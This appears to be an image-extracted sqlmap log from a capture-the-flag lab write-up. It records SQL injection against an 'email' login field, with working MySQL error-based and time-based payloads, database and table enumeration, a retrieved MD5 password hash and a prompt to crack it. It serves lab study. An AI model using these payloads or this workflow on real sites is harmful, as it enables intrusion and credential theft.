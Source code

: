 ```
[10:13:22] [INFO] heuristic (basic) test shows that POST parameter 'email' might be injectable (possible DBMS: 'MySQL')
[10:13:22] [INFO] heuristic (XSS) test shows that POST parameter 'email' might be vulnerable to cross-site scripting (XSS) attacks
[10:13:22] [INFO] testing for SQL injection on POST parameter 'email'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[10:13:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:13:25] [WARNING] reflective value(s) found and filtering out
[10:13:25] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:13:26] [INFO] testing 'Generic inline queries'

(...)

[10:17:44] [INFO] testing 'MySQL UNION query (40) - 81 to 100 columns'
POST parameter 'email' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 1350 HTTP(s) requests:
---
Parameter: email (POST)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: email=hacker@root.thm' AND GTID_SUBSET(CONCAT(0x7162717871,(SELECT (ELT(1897=1897,1))),0x716b626a71),1897)-- wFOV&password=password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=hacker@root.thm' AND (SELECT 2835 FROM (SELECT(SLEEP(5)))TVSg)-- OcNj&password=password
---
[10:18:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[10:18:01] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[10:18:01] [INFO] fetching current database
[10:18:01] [INFO] retrieved: 'expose'
[10:18:01] [INFO] fetching tables for database: 'expose'
[10:18:02] [INFO] retrieved: 'config'
[10:18:02] [INFO] retrieved: 'user'
[10:18:02] [INFO] fetching columns for table 'config' in database 'expose'
[10:18:02] [INFO] retrieved: 'id'
[10:18:02] [INFO] retrieved: 'int'
[10:18:02] [INFO] retrieved: 'url'
[10:18:02] [INFO] retrieved: 'text'
[10:18:02] [INFO] retrieved: 'password'
[10:18:02] [INFO] retrieved: 'text'
[10:18:02] [INFO] fetching entries for table 'config' in database 'expose'
[10:18:02] [INFO] retrieved: '/file1010111/index.php'
[10:18:03] [INFO] retrieved: '1'
[10:18:03] [INFO] retrieved: '69c66901194a6486176e81f5945b8929'
[10:18:03] [INFO] retrieved: '/upload-cv00101011/index.php'
[10:18:03] [INFO] retrieved: '3'
[10:18:03] [INFO] retrieved: '// ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z'
[10:18:03] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
do you want to crack them via a dictionary-based attack? [Y/n/q] 
[10:18:12] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
```
